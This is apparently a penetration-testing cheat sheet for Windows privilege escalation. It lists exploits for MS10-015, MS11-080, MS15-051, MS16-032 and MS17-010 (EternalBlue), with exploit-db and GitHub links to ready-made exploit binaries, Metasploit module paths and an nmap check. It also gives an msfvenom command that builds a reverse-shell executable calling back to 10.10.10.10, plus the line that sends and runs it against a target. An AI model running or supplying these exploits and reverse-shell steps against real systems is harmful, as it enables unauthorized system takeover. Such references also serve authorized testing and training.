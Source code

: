 #### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

#### ‘KiTrap0D’ User Mode to Ring Escalation (MS10-015)

    https://www.exploit-db.com/exploits/11199

    Metasploit : exploit/windows/local/ms10_015_kitrap0d

#### MS11-080 (afd.sys) - Microsoft Windows XP/2003

    Python: https://www.exploit-db.com/exploits/18176
    Metasploit: exploit/windows/local/ms11_080_afdjoinleaf

#### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

    printf("[#] usage: ms15-051 command \n");
    printf("[#] eg: ms15-051 \"whoami /all\" \n");

#### x32

https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

####  x64

https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image

#### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

###### Check if the patch is installed : wmic qfe list | findstr "3139914"

######  Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

#### MS17-010 (Eternal Blue)

########  Check the vulnerability with the following nmap script.

      nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
      git clone https://github.com/helviojunior/MS17-010

########  generate a simple reverse shell to use
      msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
      python2 send_and_execute.py 10.0.0.1 revshell.exe

#### References
- Source : [0x1 gitlab Win Priv Esc](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/)
